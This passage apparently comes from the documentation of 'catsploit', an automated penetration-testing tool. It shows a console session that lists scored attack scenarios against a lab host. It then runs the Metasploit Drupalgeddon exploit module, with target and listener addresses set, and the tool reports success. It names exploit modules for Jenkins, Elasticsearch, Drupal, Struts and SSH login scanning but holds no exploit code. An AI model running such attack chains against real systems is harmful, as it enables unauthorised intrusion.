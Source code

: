 ```
┏━━━━━━━━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━┳━━━━━━━┳━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ scenario id ┃ src host ip ┃ target host ip ┃ eVc   ┃ eVd   ┃ steps ┃ first attack step             ┃
┡━━━━━━━━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━╇━━━━━━━╇━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ 3d3ivc      │ 0.0.0.0     │ 192.168.0.10   │ 1.0   │ 32.0  │ 1     │ exploit/multi/http/jenkins_s… │
│ 5gnsvh      │ 0.0.0.0     │ 192.168.0.10   │ 1.0   │ 53.76 │ 2     │ exploit/multi/http/jenkins_s… │
│ 6nlxyc      │ 0.0.0.0     │ 192.168.0.10   │ 0.0   │ 48.32 │ 2     │ exploit/multi/http/jenkins_s… │
│ 8jos4z      │ 0.0.0.0     │ 192.168.0.10   │ 0.7   │ 72.8  │ 2     │ exploit/multi/http/jenkins_s… │
│ 8kmmts      │ 0.0.0.0     │ 192.168.0.10   │ 0.0   │ 32.0  │ 1     │ exploit/multi/elasticsearch/… │
│ agjmma      │ 0.0.0.0     │ 192.168.0.10   │ 0.0   │ 24.0  │ 1     │ exploit/windows/http/managee… │
│ joglhf      │ 0.0.0.0     │ 192.168.0.10   │ 70.0  │ 60.0  │ 1     │ auxiliary/scanner/ssh/ssh_lo… │
│ rmgrof      │ 0.0.0.0     │ 192.168.0.10   │ 100.0 │ 32.0  │ 1     │ exploit/multi/http/drupal_dr… │
│ xuowzk      │ 0.0.0.0     │ 192.168.0.10   │ 0.0   │ 24.0  │ 1     │ exploit/multi/http/struts_dm… │
│ yttv51      │ 0.0.0.0     │ 192.168.0.10   │ 0.01  │ 53.76 │ 2     │ exploit/multi/http/jenkins_s… │
│ znv76x      │ 0.0.0.0     │ 192.168.0.10   │ 0.01  │ 53.76 │ 2     │ exploit/multi/http/jenkins_s… │
└─────────────┴─────────────┴────────────────┴───────┴───────┴───────┴───────────────────────────────┘

catsploit> scenario detail rmgrof
┏━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━┳━━━━━━┓
┃ src host ip ┃ target host ip ┃ eVc   ┃ eVd  ┃
┡━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━╇━━━━━━┩
│ 0.0.0.0     │ 192.168.0.10   │ 100.0 │ 32.0 │
└─────────────┴────────────────┴───────┴──────┘

[Steps]
┏━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ # ┃ step                                  ┃ params                ┃
┡━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│ 1 │ exploit/multi/http/drupal_drupageddon │ RHOSTS: 192.168.0.10  │
│   │                                       │ LHOST: 192.168.10.100 │
└───┴───────────────────────────────────────┴───────────────────────┘


catsploit> attack rmgrof
> ~
> ~
> Metasploit Console Log
> ~
> ~
[+] Attack scenario succeeded!


catsploit> exit
Bye.
```

